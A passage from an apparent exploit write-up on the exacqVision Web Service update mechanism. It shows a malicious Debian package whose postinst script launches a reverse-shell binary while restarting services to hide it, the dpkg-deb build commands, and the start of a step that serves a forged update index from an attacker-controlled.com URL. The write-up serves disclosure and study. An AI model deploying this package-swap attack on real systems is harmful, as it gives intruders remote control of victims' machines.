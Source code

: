 In this example, the `postinst` file includes shell commands that will make the `shell_reverse_tcp` binary payload executable, run the `shell_reverse_tcp` binary as a background process, and start/restart the `webservice` and `evapache` services, respectively. Starting/restarting the `webservice` and `evapache` services ensures that the functionality of exacqVision Web Service is restored after the installation of the malicious Debian package is complete.

The content of the `postinst` file within the package directory structure relative to the example is shown below. Remember, the `postinst` file must have executable file permissions.

```
#!/bin/bash
service webservice start
service evapache restart
chmod 2755 /tmp/shell_reverse_tcp && /tmp/shell_reverse_tcp &
```

With all of the previously described files in place within the `evil-package` directory structure, the `evil-packge.deb` binary package file can be built. A reliable way to build binary package files that are compatible on both old and new versions of Linux operating systems (more specifically, both old and new versions of `dpkg`) is to use the `dpkg-deb` Debian package archive directory manipulation tool. 

The `dpkg-deb` tool allows for the specification of `gzip` compression to be used when building a package. By default, new versions of `dpkg` and `dpkg-deb` use `xz` compression when building a package file, but support for `xz` compression was not added to `dpkg` until version 1.15.6. Therefore, versions of `dpkg` prior to 1.15.6 are unable to compress/decompress package files that are built using default `xz` compression. 

The process of building the `evil-package.deb` file using `gzip` compression is shown below.

```
┌─[root@parrot]─[~/demo]
└──╼ #/usr/bin/dpkg-deb -Zgzip --build evil-package
dpkg-deb: building package 'evil-package' in 'evil-package.deb'.
```

```
┌─[root@parrot]─[~/demo]
└──╼ #file evil-package.deb 
evil-package.deb: Debian binary package (format 2.0), with control.tar.gz, data compression gz
```

### 4. Modifying evFileInfo.txt
Recall the `evFileInfo.txt` file that was introduced in step two. By default, exacqVision Web Service consults the `evFileInfo.txt` file located at `http://attacker-controlled.com/evFileInfo.txt` for information regarding service updates.

In the current example where the vulnerable service version 7.8.2.97826 is installed/running on a Linux x86 operating system, when checking for updates, the service will parse the `evFileInfo.txt` file for updates relevant to the Linux operating system and the x86 architecture. For example, a valid service update to version 20.03.2.0 would be found within the genuine `evFileInfo.txt` file as defined within the file and represented below.

```
...
[ev-WebService-Linux-20.03.2.0]
Version=20.03.2.0
Date=03-05-2020
Downloadable=True
Link=https://cdnpublic.exacq.com/20.03/exacqVisionWebService_20.03.2.0_x86.deb
Package=Linux
Product=webservice
Signed=False
Filesize=124771822
ChecksumType=md5
ChecksumHash=fc73c9636d47d8828e77fcdeff3f309c
Status=Recommended
Extension=deb
...
```